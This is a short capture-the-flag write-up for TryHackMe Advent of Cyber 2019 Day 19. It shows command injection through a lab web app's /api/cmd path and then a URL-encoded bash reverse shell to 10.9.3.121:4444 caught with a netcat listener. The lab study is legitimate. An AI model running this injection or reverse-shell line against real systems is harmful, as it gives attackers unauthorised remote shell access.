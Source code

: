 # Command injection 
-----

--> i found this at `http://<ip>:3000` 

![Pasted image 20210813123146.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-19/attachments/Pasted%20image%2020210813123146.png)

--> but McSkidy found some input at `/api/cmd` directory 

--> so Let's go there and try to do command injection 

--> but we are getting this error 

![Pasted image 20210813123302.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-19/attachments/Pasted%20image%2020210813123302.png)

--> but when i tried to do like `/api/cmd/ls` then i got the output !

![Pasted image 20210813123345.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-19/attachments/Pasted%20image%2020210813123345.png)

--> so Let's get the reverse shell from this url 

--> we have this reverse shell 

`sh -i >& /dev/tcp/10.9.3.121/4444 0>&1`

--> but first we have to URL encode it and after that we will start our listner on port 4444

`nc -lvnp 4444`

--> and we got the shell after injecting this payload !

![Pasted image 20210813123537.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-19/attachments/Pasted%20image%2020210813123537.png)

--> and i found `user.txt` in `home` directory 

![Pasted image 20210813123618.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-19/attachments/Pasted%20image%2020210813123618.png)

------
